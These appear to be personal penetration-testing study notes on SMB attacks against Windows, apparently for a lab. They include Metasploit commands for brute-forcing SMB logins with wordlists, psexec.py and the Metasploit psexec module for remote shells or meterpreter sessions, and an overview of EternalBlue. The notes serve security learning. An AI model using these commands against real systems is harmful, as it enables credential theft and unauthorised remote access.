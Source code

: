 #### SMB Exploitation With PsExec ####
+ In order to utilize <mark style="background: #D2B3FFA6;">PsExec</mark> to gain access to a Windows target, will need to identify legitimate user accounts and their respective passwords or password hashes 
+ Can be done by leveraging various tools and techniques, though most common will involve an <mark style="background: #ADCCFFA6;">SMB login brute-force attack</mark> 
+ Can narrow down our brute-force attack to only include <mark style="background: #FFF3A3A6;">common windows user accounts</mark> like:
	+ `Administrator` 
+ After we have obtained a legitimate user account and password, we use the credentials to authenticate via <mark style="background: #D2B3FFA6;">PsExec</mark> and <mark style="background: #ADCCFFA6;">execute arbitrary system commands or obtain a reverse shell</mark>

Can use <mark style="background: #FF5582A6;">msfconsole</mark> to automate the attack
+ will want to launch with `service postgresql start && msfconsole`
	+ because msfconsole uses a database that runs with postgresql 

Then will search <mark style="background: #FF5582A6;">smb_login</mark>
+ or `use auxiliary/scanner/smb/smb_login`
  + `set RHOSTS 10.3.19.6`
  + `set USER_FILE set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt` (Because we are brute forcing)
  + `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` (Because we are brute forcing)
  + `set VERBOSE false` (to only show successful logins)

<mark style="background: #D2B3FFA6;">psexec</mark> is a <mark style="background: #FFF3A3A6;">windows utility so can not use it on a linux system</mark>
+ will need to use <mark style="background: #D2B3FFA6;">psexec.py</mark> instead so a python script can do it 
+ Can run with `psexec.py Administrator@10.3.19.6 cmd.exe`
	+ where are using the username: `Administrator`
	+ The IP is the target 
	+ and `cmd.exe` is executed because the goal is CLI access 
	+ will ask you for the `password`
+ It will then have CLI access 
	+ can use `whoami` to see privilege level 

To get a <mark style="background: #FF5582A6;">meterpreter</mark> session, can use `msfconsole`
+ can `search psexec` or `use exploit/windows/smb/psexec`
	+ <mark style="background: #FF5582A6;">NOTE</mark>: THIS IS RUNNING A MALICIOUS FILE ON THE TARGET SYSTEM UNLIKE THE PREVIOUS EXPLOIT, BE CAREFUL OF ANTI VIRUS
	+ `set RHOSTS 10.3.19.6`
	+ `set SMBUser Administrator` (where the username was got with brute-force)
	+ `set SMBPass qwertyuiop` (where the password was got with brute-force)

### Exploiting Windows MS17-010 SMB Vulnerability (Eternal Blue) ###

#### EternalBlue ####
+ <mark style="background: #FF5582A6;">EternalBlue</mark> (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerability and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is apart of
+ <mark style="background: #FF5582A6;">EternalBlue</mark> exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability
	+ it was leaked to the public by a hacker group called the **Shadow Brokers** in 2017
+ <mark style="background: #FF5582A6;">EternalBlue</mark> takes advantage of a vulnerability in the <mark style="background: #ADCCFFA6;">Windows SMBv1 protocol</mark> that allows attackers to send specially crafted packets that allow arbitrary commands 
	+ can get a **reverse shell** or **meterpreter**
	+ Will also <mark style="background: #FFF3A3A6;">provide elevated access</mark>, no need for privilege escalation
